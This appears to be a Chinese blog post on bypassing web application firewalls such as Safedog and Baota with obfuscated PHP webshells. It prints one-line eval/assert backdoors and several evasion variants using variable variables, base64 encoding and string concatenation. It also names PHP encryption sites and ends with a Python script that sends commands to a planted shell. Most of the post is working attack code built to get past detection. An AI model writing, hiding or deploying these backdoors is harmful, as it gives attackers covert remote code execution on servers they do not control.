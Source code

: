 ```yaml
---
title: "WAF权限控制之代码混淆" # 文章标题.
date: 2022-11-03
draft: false
tags: ["WAF绕过"]
categories: ["WAF绕过"]
---
```


# WAF权限控制之代码混淆

![WAF绕过](./WAF绕过.png)

## 权限控制原理分析

菜刀，蚁剑，冰蝎优缺点

菜刀：未更新状态，无插件，单向加密传输

蚁剑：更新状态，有插件，拓展性强，单向加密传输

冰蝎：更新状态，未知插件，偏向于后渗透，双向加密传输

### 冰蝎加密原理

冰蝎在服务端支持open_ssl时，使用AES加密算法，密钥长度16位，也可称为AES-16。此在软件及硬件(英特尔处理器的AES指令集包含六条指令)上都能快速地加解密，内存需求低，非常适合流量加密。

![冰蝎加密](./冰蝎加密.jpg)

首先客户端以Get形式发起带密码的请求。

服务端产生随机密钥，将密钥写入Session并将密钥返回客户端。

客户端获取密钥后，将payload用AES算法加密，用POST形式发送请求。

服务端收到请求，用Session中的密钥解密请求的Body部分，之后执行Payload，将直接结果返回到客户端。

客户端获取返回结果，显示到UI界面上。

## 一句话后门的原理

```php
<?php @eval($_POST['password'])?>
<?php assert($_POST['chopper'])?>
```

* @再php中含义为后面如果执行错误不会报错
* `eval()`函数表示括号里的语句全做代码执行
* `$_POST['password']`表示从页面中以post方式获取变量password的值。

## WebShell工具的基本原理

把一些具体执行语句集成化（各种各样在功能语句都帮你写好了），你直接连接执行就可！

## Safedog 代码层手写及脚本绕过

### 变量覆盖

#### 后门原型

```php
<?php @eval($_POST['password'])?>
<?php assert($_POST['chopper'])?> // 这种方式直接被安全狗拦截,php7之后assert()默认不再可以执行代码
```

使用变量覆盖的方式编写木马，直接绕过。

```php
<?php
$a = $_GET['x'];
$$a = $_GET['y'];
$b($_POST['z']);

//?x=b&y=assert
//$a = b
//$$a ->$b 变量引用
//$b= assert
//$b($_POST['z']);--->assert($_POST['z'])

$a = 'b';
$b = 'assert';
$$a(base64_decode($_POST['x']));

?>
```

![变量覆盖](./变量覆盖.png)

把敏感字符传递的参数中，waf能够确定你的代码，但是确定不了你传递的参数值，safedog有变量追踪。简单的拆分，直接报马。

```php
<?php 
$a = $_GET['x'];
// $$a = $_GET['y'];
$a($_POST['z']);
?>
// 或者这一种
<?php 
$a = $_GET['x'];
// $$a = $_GET['y'];
$b='assert';
$b($_POST['z']);
?>
```

但是对于BT来说，他会检测`phpinfo`这个函数这时候就需要我们对传入的数据进行编码。

```php
<?php
$a = $_GET['x'];
$$a = $_GET['y'];
$b(base64_decode($_POST['z']));
?>
// 或者
<?php
$a = $_GET['x'];
$$a = base64_decode($_GET['y']);
$b($_POST['z']);
?>
```

不能使用eval，因为eval是一个语言构造器，而不是函数，不能被可变函数或者命名参数调用。所以只能使用assert，php7之后assert()默认不再可以执行代码。这样我们就没办法编写相应的一句话绕过了，只能使用别的办法。

![蚁剑连接](./蚁剑连接.png)

### 加密混淆

对PHP加密的两个常用网站

http://enphp.djunny.com/

https://www.phpjiami.com/phpjiami.html

只需要将写的PHP一句话，上传到对应的网站，即可进行加密，但是对于有一些时二进制加密的，我们不能够复制加密文件的内容，到服务器上，需要将文件复制到对应的服务器上才可以。

### 异或生成

使用webshell-venom这个项目来生成异或的shell。

### 参数带入

```php
<?php 
$a = $_GET['a']; // 传入ass组成assert
$aa=$a.'ert';
$aa(base_decode($_POST['x']));
?>
```

## BT Aliyun 代码层手写及脚本绕过

编码解码(变量覆盖，加密混淆，异或生成)

## 造轮子

waf基本都有菜刀、蚁剑、冰蝎的指纹，当你使用他们的时候，一些危害行为会被拦截！

要想不被识别拦截，只能自己造轮子！

自己写数据包，不会有那些指纹特征，就能实现功能！

![自己造轮子](./自己造轮子.png)

可以将命令换成任意的命令，例如文件写入等等。

### Python脚本编写管理工具

```python
import requests

url = "http://192.168.132.139/mypage/mywebpage/muma.php"
password = 'mr6'
execcontroller = "var_dump(scandir('.'))"
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36 Edg/112.0.1722.58'
}
password_encode = execcontroller.encode('utf-8')
data = {
    password:password_encode
}
result = requests.post(url=url,headers=headers,data=data)
print(result.text)
```